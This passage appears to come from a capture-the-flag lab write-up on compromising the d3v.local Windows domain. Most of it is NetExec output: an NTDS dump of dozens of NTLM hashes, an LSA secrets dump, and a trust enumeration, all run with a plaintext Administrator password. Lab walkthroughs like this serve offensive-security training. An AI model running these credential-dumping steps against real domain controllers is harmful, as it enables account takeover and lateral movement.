NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Iris.Atkinson:1245:aad3b435b51404eeaad3b435b51404ee:4286225d9b813a2c1370767d6c92817f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Mark.Booker:1246:aad3b435b51404eeaad3b435b51404ee:c09c6cc08ecf18106082107ab42c6eef:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Alfonso.Fincher:1247:aad3b435b51404eeaad3b435b51404ee:60786bb82bc84287788fd6f203959a72:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Charles.Fortune:1248:aad3b435b51404eeaad3b435b51404ee:e589cce959347852733be974f5509df6:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Antoinette.Williams:1249:aad3b435b51404eeaad3b435b51404ee:dd9cac383c883eb9ba70e100d858bbe5:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Sherill.Ricard:1250:aad3b435b51404eeaad3b435b51404ee:4fe65f780000782f509c3c1794e8f5a1:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Kenneth.Kovach:1251:aad3b435b51404eeaad3b435b51404ee:4aa4a74e8573e8ee5bd0126ee2a7d57c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Barbara.Ingle:1252:aad3b435b51404eeaad3b435b51404ee:74f12ab261958a93ca5f8a733e5b660d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Catherine.Labrie:1253:aad3b435b51404eeaad3b435b51404ee:73fd2e667a7fe37e3fd8a815c9eca42f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Robert.Gibson:1254:aad3b435b51404eeaad3b435b51404ee:5dffe6a2a3fdd1f25edd137e02c066b6:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Robert.Rodriguez:1255:aad3b435b51404eeaad3b435b51404ee:76379b1bf3d783ad1ed88d47fd4b347c:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Roslyn.Dunham:1256:aad3b435b51404eeaad3b435b51404ee:246725668d83c91e6bb115c039ecf789:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Lee.Diaz:1257:aad3b435b51404eeaad3b435b51404ee:b1c5757e88cf759184248c2667da2be2:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Kerrie.Morris:1258:aad3b435b51404eeaad3b435b51404ee:e857e5da6ddb9bba768ab9d92c5d2c13:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Elaine.Shoemake:1259:aad3b435b51404eeaad3b435b51404ee:6c150eada0c86d0cfb14012539d14178:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Laura.Greenhill:1260:aad3b435b51404eeaad3b435b51404ee:b685cecf5b81af9aaa5b8500edf1eecc:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Lan.Pantoja:1261:aad3b435b51404eeaad3b435b51404ee:fd2133fab32bf695c9918cb4a91d3ae4:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Doug.McCormick:1262:aad3b435b51404eeaad3b435b51404ee:f5e7da0137bd1c1aa0e711cbeb5cf473:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Victor.Lowrey:1263:aad3b435b51404eeaad3b435b51404ee:be889666b7ee6a9dc240ab1a32176bb7:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\William.Hussain:1264:aad3b435b51404eeaad3b435b51404ee:723966fba0d7fb74da3699640d368376:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\James.Spitz:1265:aad3b435b51404eeaad3b435b51404ee:117a30ca1517ffaa5e2fec41908e5e06:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Alan.Carr:1266:aad3b435b51404eeaad3b435b51404ee:f14e72647073beaf8bdd2a0bf15150d0:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Arlene.Brown:1267:aad3b435b51404eeaad3b435b51404ee:eeec17619bd07e0aef4ff0a7fd34df29:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Ken.Arellano:1268:aad3b435b51404eeaad3b435b51404ee:9e80f6b47b4ba6e45cbf7c1d357d9d1b:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Jason.Miller:1269:aad3b435b51404eeaad3b435b51404ee:d813bbb0f3d52fc4face2fa270e55afb:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Joseph.Rucker:1270:aad3b435b51404eeaad3b435b51404ee:bfa5f249051a223d6572b31e3b450f4d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Rose.Blouin:1271:aad3b435b51404eeaad3b435b51404ee:943750cf479330b2c210007ce4ea44fc:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Leah.Palmer:1272:aad3b435b51404eeaad3b435b51404ee:0115b63b1b71d299e201f6035fab3729:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Joe.Jeter:1273:aad3b435b51404eeaad3b435b51404ee:209da24db3f3930a6da8fcd4945e43a1:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\John.McRae:1274:aad3b435b51404eeaad3b435b51404ee:f70b89e6d4fbe14384c5ed752bc67033:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Maria.Gonzalez:1275:aad3b435b51404eeaad3b435b51404ee:e1306d0a0d7c1d0f6f3a675c4a544d78:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Joe.Sellers:1276:aad3b435b51404eeaad3b435b51404ee:7eae8b30ba6d84e8dabb15ed2acc862d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Elizabeth.Ferrara:1277:aad3b435b51404eeaad3b435b51404ee:593c063db647a8fdb84dd56696d5245f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Lisa.Blair:1278:aad3b435b51404eeaad3b435b51404ee:02730ce055fe6c5987990d71fdef1679:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Henrietta.Bridges:1279:aad3b435b51404eeaad3b435b51404ee:afb0ef3f8c26d3f66628361b9214b81e:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Luis.Burton:1280:aad3b435b51404eeaad3b435b51404ee:75674738d46cf684ce9595aa402846fa:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Monica.Arteaga:1281:aad3b435b51404eeaad3b435b51404ee:335e412422c5f071e378597a2384a4dc:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Sabrina.McNulty:1282:aad3b435b51404eeaad3b435b51404ee:580732941f350cf0a299c72d20674cc0:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Michael.Darrington:1283:aad3b435b51404eeaad3b435b51404ee:65b3936a617f78cb6ae6c649ef222e18:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Robert.Cantu:1284:aad3b435b51404eeaad3b435b51404ee:64b7d504e30400b9f81c51cd7df55a62:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Melody.Barron:1285:aad3b435b51404eeaad3b435b51404ee:7b9d92943c20b276459468aaa798c8c2:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Scott.Hacker:1286:aad3b435b51404eeaad3b435b51404ee:2fdb8a871ed943bea1d4435d776cc7b4:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Linda.Schumacher:1287:aad3b435b51404eeaad3b435b51404ee:bcf89f38638737fbd947cbf71e40667a:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Derrick.Miller:1288:aad3b435b51404eeaad3b435b51404ee:1beaabd3537aff2bcf476f0c22dd9b2d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Marie.Yeary:1289:aad3b435b51404eeaad3b435b51404ee:08afd5c02597cef1b0e8b9fba56ea966:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Scott.Rogers:1290:aad3b435b51404eeaad3b435b51404ee:3e74abb411be7013937dc952cb9d9f3d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Kiara.Owens:1291:aad3b435b51404eeaad3b435b51404ee:5942a7f0dda1fa9e305706ded9e71a1f:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\James.Barajas:1292:aad3b435b51404eeaad3b435b51404ee:41999c840433173d62c0729fd1864b58:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\James.Weeks:1293:aad3b435b51404eeaad3b435b51404ee:6fa189ab43d945dca67ea08b969b6cc8:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Joe.Murray:1294:aad3b435b51404eeaad3b435b51404ee:d39bde92aac8f2c135fa92da68e2dea5:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Mary.Hill:1295:aad3b435b51404eeaad3b435b51404ee:d3f586977cf61fe6b56b75404359dae5:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\William.Lee:1296:aad3b435b51404eeaad3b435b51404ee:6ad6431e82e1efbcdefe7b3951729b2e:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Patrica.Alvarez:1297:aad3b435b51404eeaad3b435b51404ee:3fdb42d80923dab49b958df2b221e9d7:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Virginia.Garst:1298:aad3b435b51404eeaad3b435b51404ee:a5d90cc3d71b51638bf6c716adb83e0d:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Brian.Hopkins:1299:aad3b435b51404eeaad3b435b51404ee:d566fe4451e3fcc8ca4c2019566c3891:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Charles.Halley:1300:aad3b435b51404eeaad3b435b51404ee:106265dd1b01cdd44462d0b97ea0837b:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Leonard.Dennis:1301:aad3b435b51404eeaad3b435b51404ee:abae77a0efbf840dad8ccfb37068685b:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\Vivian.Baker:1302:aad3b435b51404eeaad3b435b51404ee:a83291025ea639d60203f10a98fa7da5:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\svc_jenkins:1303:aad3b435b51404eeaad3b435b51404ee:640fb1b41e29e94959efe88f82ea03f6:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\d3webjw$:1326:aad3b435b51404eeaad3b435b51404ee:3d17b9480e669f48e38940fbca310acb:::
NTDSUTIL    10.9.30.10      445    D3DC             d3v.local\d3webvw$:1327:aad3b435b51404eeaad3b435b51404ee:ca4e966bd35433a58e6564f4a4c8d0b8:::
NTDSUTIL    10.9.30.10      445    D3DC             CYBER$:1329:aad3b435b51404eeaad3b435b51404ee:d174abff29c5671c547ee53d58989cc0:::
NTDSUTIL    10.9.30.10      445    D3DC             D3WEBAL$:1330:aad3b435b51404eeaad3b435b51404ee:b176388b3118082198240d2f90c37ef8:::
NTDSUTIL    10.9.30.10      445    D3DC             D3WKT001$:1331:aad3b435b51404eeaad3b435b51404ee:d837c8c434a3a8cf7f0d44f2ed01817d:::
NTDSUTIL    10.9.30.10      445    D3DC             [+] Dumped 211 NTDS hashes to /root/.nxc/logs/D3DC_10.9.30.10_2024-06-26_143325.ntds of which 205 were added to the database
NTDSUTIL    10.9.30.10      445    D3DC             [*] To extract only enabled accounts from the output file, run the following command: 
NTDSUTIL    10.9.30.10      445    D3DC             [*] grep -iv disabled /root/.nxc/logs/D3DC_10.9.30.10_2024-06-26_143325.ntds | cut -d ':' -f1
```

And we can grab another flag!



And the LSASS.exe secrets but nothing juicy came out so far:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/d3v.local]
└─# NetExec smb 10.9.30.10 -u "Administrator" -p "i@V@36hbW" --lsa
SMB         10.9.30.10      445    D3DC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:D3DC) (domain:d3v.local) (signing:True) (SMBv1:False)
SMB         10.9.30.10      445    D3DC             [+] d3v.local\Administrator:i@V@36hbW (Pwn3d!)
SMB         10.9.30.10      445    D3DC             [+] Dumping LSA secrets
SMB         10.9.30.10      445    D3DC             D3V\D3DC$:aes256-cts-hmac-sha1-96:78ba55cd72a9a4c3b2e56dd9a9ce34a17d834a12afffa13d1e74c5f47b830614
SMB         10.9.30.10      445    D3DC             D3V\D3DC$:aes128-cts-hmac-sha1-96:f04f2a9eb7df93db4766e28145fdb7c4
SMB         10.9.30.10      445    D3DC             D3V\D3DC$:des-cbc-md5:0280048634c1ae1a
SMB         10.9.30.10      445    D3DC             D3V\D3DC$:plain_password_hex:7e9eedaf80e1111a2d2488bf342f862ef08f076aa60f5620df3693d0f1f0668b25ee9ffabb097ce910f87bd88634d7bae2969b55f470e7845eeb71584538c75fda46e81655e45109a24f18afbf7212a2ec1274cdb606071ce8d46b26766b26c77e83b052d94a5eab6f137a081f0ab1be5afd774ceeb81a001b91f1407a2bf39d37d23053c8920bb535514ea189fb5197ea71b60782bce112a6653f5c46369b787fa557e3ac7ed5c123f3f029136fc2106eadfd096dd2a033d59ded7e1cb43e8ca0a1d1eec47b424955d793e6c25d370c001283db041151caafdfbc438253b8a3dd2bdca2f03071698a5fe0b37e54b9af
SMB         10.9.30.10      445    D3DC             D3V\D3DC$:aad3b435b51404eeaad3b435b51404ee:f15509e5252d987bafb4a7553891c3db:::
SMB         10.9.30.10      445    D3DC             dpapi_machinekey:0xa005bff5ab141292be3022e310acc2f93c1fd119
dpapi_userkey:0x55d5878c8ab4e750f783db6e635c0c66b9bee306
SMB         10.9.30.10      445    D3DC             NL$KM:994f5d6c55b9ecb50c0bd875a28893e4c0d9efc50db9405792399abe9da583ed11cb717cab32cd11fd7aed2eabbef16258f21d8aac9facfb3217d8eeb3bda5dc
SMB         10.9.30.10      445    D3DC             [+] Dumped 7 LSA secrets to /root/.nxc/logs/D3DC_10.9.30.10_2024-06-26_144805.secrets and /root/.nxc/logs/D3DC_10.9.30.10_2024-06-26_144805.cached
```

Now here I don't see anything on this part:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/d3v.local]
└─# NetExec ldap 10.9.30.10 -u "Administrator" -p "i@V@36hbW" -M enum_trusts
SMB         10.9.30.10      445    D3DC             [*] Windows 10 / Server 2016 Build 14393 x64 (name:D3DC) (domain:d3v.local) (signing:True) (SMBv1:False)
LDAP        10.9.30.10      389    D3DC             [+] d3v.local\Administrator:i@V@36hbW (Pwn3d!)
ENUM_TRUSTS 10.9.30.10      389    D3DC             [+] Found the following trust relationships:
ENUM_TRUSTS 10.9.30.10      389    D3DC             cyber.local -> Bidirectional -> Forest Transitive
```

&nbsp;

&nbsp;

&nbsp;